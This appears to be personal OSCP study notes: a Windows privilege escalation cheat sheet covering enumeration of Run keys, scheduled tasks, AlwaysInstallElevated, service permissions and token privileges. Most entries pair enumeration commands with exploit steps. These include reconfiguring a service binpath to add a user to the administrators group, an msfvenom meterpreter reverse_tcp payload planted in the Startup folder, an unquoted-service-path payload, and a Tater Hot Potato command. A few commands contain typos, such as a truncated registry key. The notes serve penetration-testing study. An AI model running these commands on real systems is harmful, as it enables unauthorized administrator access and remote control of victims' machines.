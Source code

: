 ### Startup tasks (Autorun Check)
```bash
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

### Scheduled tasks
```bash
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

**For Exploit** - https://atom.hackstreetboys.ph/windows-privilege-escalation-registry-exploits/


### AlwaysInstallElevated
```bash
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
 “AlwaysInstallElevated” exists with a dword (REG_WORD) value of **0x1**, which means that the AlwaysInstallElevated policy is enabled.

**For Exploit** - https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
[[OSCP/Priviledge Escalation/Windows Priviledge Escalation/EoP - AlwaysInstallElevated]]

### Service Escalation - Registry
```bash
Get-Acl HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | Format-List
```
**Expected output **
```
NT AUTHORITY\**INTERACTIVE Allow FullControl
```
**For Exploit** - [[EOP - Service Escalation - Registry]]

### Service Escalation - Executable Files
```bash
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"  
```
**Expected output **
```
“FILE_ALL_ACCESS” permission on the filepermservice.exe file.
```

### Service Escalation - binPath
```bash
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```
**Expected output **
```
“SERVICE_CHANGE_CONFIG” permission
```
**For Exploit**
```bash
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
```

### Impersonating Privileges with Juicy Potato
```bash
whoami /priv
```
**For Exploit** - https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

### Startup Applications
```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
**Expected output **
```
 “BUILTIN\Users” group has full access ‘(F)’
```
**For Exploit**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
```
1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.  
2. Logoff.  
3. Login with the administrator account credentials.

### Service Escalation - Unquoted Service Paths
```bash
sc qc unquotedsvc
```

**Expected output **
```
BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files
```

**For Exploit**
```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

- Windows Machine
	1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.  
	2. Open command prompt and type: **sc start unquotedsvc**  
	3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**

###  Potato Escalation - Hot Potato
This issue affects various windows versions like:

-   Windows 7
-   Windows 8
-   Windows 10
-   Windows Server 2008
-   Windows Server 2012

**Tool** - https://github.com/Kevin-Robertson/Tater
```bash
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"  
```

**Expected output **
```
To confirm that the attack was successful, in Power Shell prompt type: net localgroup administrators